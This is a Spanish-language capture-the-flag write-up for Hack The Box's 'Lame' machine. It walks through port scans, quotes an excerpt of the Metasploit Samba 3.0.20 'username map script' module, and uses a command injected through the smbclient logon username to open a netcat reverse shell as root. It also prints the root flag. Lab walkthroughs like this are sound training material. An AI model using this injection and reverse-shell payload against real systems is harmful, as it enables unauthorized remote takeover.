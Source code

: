 ```yaml
---
layout: single
title: Lame HTB Write-up
excerpt: "En este artículo comparto el write up de la máquina Lame de Hack The Box"
date: 2023-02-05
classes: wide
header:
  teaser: /imagenes/Lame/lame_logo.png
  teaser_home_page: true
categories:
  - Write up
  - Hack The Box
  - Easy
  - Linux
tags:
  - Enumeration
  - Exploit
  - Linux
---
```


<p align="center">
<img src="/imagenes/Lame/Lame_banner.png"  width="550" height="250">
</p>

# [](#header-2)Resumen

Saludos, en esta oportunidad vamos a resolver la máquina de **Hack The Box** llamada **Lame**, la cual tiene una dificultad easy. Para lograr vulnerarla realizaremos lo siguiente:

*   Enumeración del sistema.
*   Explotación de samba 3.0.20.

## [](#header-2)Reconocimiento y Enumeración

En primer lugar, se comprueba la correcta conexión en la VPN con la máquina utilizando `ping`:

```
ping -c 1 10.10.10.3

PING 10.10.10.3 (10.10.10.3) 56(84) bytes of data.
64 bytes from 10.10.10.3: icmp_seq=1 ttl=63 time=143 ms
```
Se observa que existe una correcta conexión con la máquina.

Para realizar un reconocimiento activo se utilizará la herramienta `nmap`, en búsqueda de puertos abiertos en todo el rango (65535) y aplicando el parámetro `-sS` el cual permite aumentar el rendimiento del escaneo, haciendo que las conexiones no se realicen totalmente (haciendo solo syn  syn-ack):

```
sudo nmap -p- -sS --open -min-rate 5000 -Pn 10.10.10.103 -oG Port
```
Al finalizar el escaneo, se pueden observar los puertos abiertos de la máquina víctima: 
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```
Vamos a realizar un escanéo de servicios:

```
sudo nmap -sCV -p21,22,139,445,3632 10.10.10.3 -oN ServiceScan
```

Como resultado del escaneo tenemos:

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.17
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-02-17T19:26:51-05:00
|_clock-skew: mean: 2h30m10s, deviation: 3h32m08s, median: 9s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```



## [](#header-2)Explotación

Si vamos revisando las versiones, vemos el samba 3.0.20, si lo buscamos en searchsploit:
```
searchsploit samba 3.0.20
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                   |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                                                           | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                                                 | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                                            | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                                                    | linux_x86/dos/36741.py

```

Encontramos algunos exploits, vamos a abrir el **unix/remote/16320.rb**:



```ruby
        def exploit

                connect

                # lol?
                username = "/=`nohup " + payload.encoded + "`"
                begin
                        simple.client.negotiate(false)
                        simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
                rescue ::Timeout::Error, XCEPT::LoginError
                        # nothing, it either worked or it didn't ;)
                end

                handler
        end

```

Si analizamos la función tenemos que ingresar en username **"/=\`nohup " + payload.encoded + "`"** vamos a intentarlo manual.

Utilizamos `smbmap` para identificar a que recursos tenemos acceso:
```
smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

Entramos con `smbclient`:
```
smbclient //10.10.10.3/tmp -N
Anonymous login successful
Try "help" to get a list of possible commands.
smb:
```
Si usamos el comando help podemos ver todo lo que podemos utilizar, según el exploit necesitamos un campo de username, y el único que lo tiene en el logon, por lo tanto, intentamos generar una conexión reversa hacia nuestra máquina utilizando `netcat`:

```
smb: \> logon "/=`nohup nc -e /bin/bash 10.10.14.17 1234`"
Password: 
```

Si vemos nuestro `netcat`:
```
nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.3] 50387
whoami
root
```
Ahora buscamos la flag:

```
cat root.txt
20814bf60da255921f3718003536cdac
```

!Listo! 

Hemos vulnerado completamente la máquina.

Nos vemos, hasta la próxima.
